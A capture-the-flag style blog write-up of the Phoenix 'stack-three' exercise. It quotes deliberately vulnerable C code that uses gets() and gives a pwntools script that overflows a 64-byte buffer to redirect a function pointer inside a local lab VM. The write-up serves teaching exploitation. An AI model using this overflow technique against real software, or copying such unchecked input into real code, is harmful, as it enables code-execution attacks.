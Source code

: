 ## Stack-Three


![](https://blog.cyb3rguru.tech/posts/phoenix/files/st3_header.png)

### Source Code
---

```
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}

```

Let's Dig in the code

- In the `main` function, a structure named `locals` is declared. It contains an array of characters called `buffer` with a size of `64` and a pointer to a function called `fp`.

- The banner message is printed using the `BANNER` macro.

- Next, the `fp` function pointer is set to `NULL`. Then, the `gets` function is called with the `buffer` as an argument, allowing user input to be stored in the `buffer`. This is a potential vulnerability since gets does not perform bounds checking and can lead to a buffer overflow.

- Afterward, an if statement checks `if` the `fp` function pointer is `non-null`. If it is, the address of the function pointer is printed, and the function pointer is called.

If the `fp` function pointer is still `NULL`, a message is printed indicating that the function pointer remains unmodified.

- Finally, the program exits with a status of 0.

The goal of the challenge is to change the value of the fp pointer to the address of the complete_level function, using GDB we could extract the address of the function

![](https://blog.cyb3rguru.tech/posts/phoenix/files/st3_f-address.png)

the function address is `0x40069d`

this challenge is similar to the previous stack challenge, hence we use a similar script but with a slice change of parameters

### Solution Script
---

```
#!/usr/bin/python
## script by Hamza Saidu
## enjoy!!!

from pwn import *


s = ssh(host='localhost', user='user', password='user', port=2222)

p = s.process('/opt/phoenix/amd64/stack-three')

print(p.recvline())
p.sendline("A"*64 +"\x9d\x06\x40")
print(p.recvline())
print(p.recv(1024))

```
running the script we got:

![](https://blog.cyb3rguru.tech/posts/phoenix/files/st3_result.png)

And viola!! Our complete_level function is called.